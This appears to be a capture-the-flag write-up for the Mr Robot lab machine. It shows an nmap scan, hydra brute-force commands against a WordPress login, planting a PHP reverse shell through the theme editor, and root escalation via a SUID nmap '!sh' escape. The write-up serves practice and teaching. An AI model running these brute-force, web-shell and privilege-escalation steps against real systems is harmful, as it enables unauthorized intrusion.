










# Mr Robot CTF

## NMAP
```
$ sudo nmap -sS -p- 10.10.211.77 
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 05:05 EDT
Nmap scan report for 10.10.211.77
Host is up (0.046s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 121.48 seconds
                                                                   
```

## Webste

### Robots.txt and Sitemap.xml

There is no sitemap xml aparently. There is however a robots.txt:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The file key-1-of-3.txt contains the first key.

In the robots.txt we can also find a dictionary file. 




Looking at this main page js we find a few directories




They are word-press templates and default pages. Knowing this we find wordpress login under:

```http://10.10.211.77/wp-login.php```


We also have a lost your password page: ```http://10.10.211.77/wp-login.php?action=lostpassword```



If we input a bad username the page will give return us an error. We can use this for username enumeration maybe:




## Username

I was gonna brute force this but i just tried elliot and it worked.




## Brute force credentials

Post as cUrl

```curl 'http://10.10.211.77/wp-login.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://10.10.211.77' -H 'Connection: keep-alive' -H 'Referer: http://10.10.211.77/wp-login.php' -H 'Cookie: s_fid=7621D0D6ECBFA3AE-328EB4611A66CA68; s_nr=1697620598822; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'log=elliot&pwd=passwprd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.211.77%2Fwp-admin%2F&testcookie=1'```


```
hydra -l elliot -P /home/kali/Desktop/rockyou.txt 10.10.211.77 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.211.77%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username " -v 
```

So this was taking to long so instead i used the dictionary we found from the robots.txt
The dictionary had a lot of repeated lines

```
└─$ python3 here.py
number of lines 858160
number of unique lines 11451
```

The python3 script on the repo can clean the repeated lines

```
hydra -l elliot -P /home/kali/Desktop/MrRobotCTF/cleanedFsocity.dic 10.10.61.151 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.61.151%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username " -v -t 30

[80][http-post-form] host: 10.10.61.151   login: elliot   password: ER28-0652
```

The password is ER28-0652

## Reverse shell



In order to add a PHP reverse shell in an wordpress blog we do the following


Click on apperance and then editor



Then select one of the php pages there to contain a php reverse shell to your machine. I am using the pentest monkey reverse shell



Then just click update file, start a netcat listener on that same port and go to the URL.




## Privesc 

First let's get a tty shell with pyhon

```$ python -c 'import pty; pty.spawn("/bin/bash")'```

In the robot home directory we can see a flag and an MD5 Hash file. 

```robot:c3fcd3d76192e4007dfb496cca67e13b```



the password is ***abcdefghijklmnopqrstuvwxyz***

switch user into robot.

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
```


To get root i got linpeas on to the machine.

```
====================================( Interesting Files )=====================================
[+] SUID  
/usr/local/bin/nmap
```

We got nmap with SUID


Get root with Nmap

```
robot@linux:/tmp$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# 
```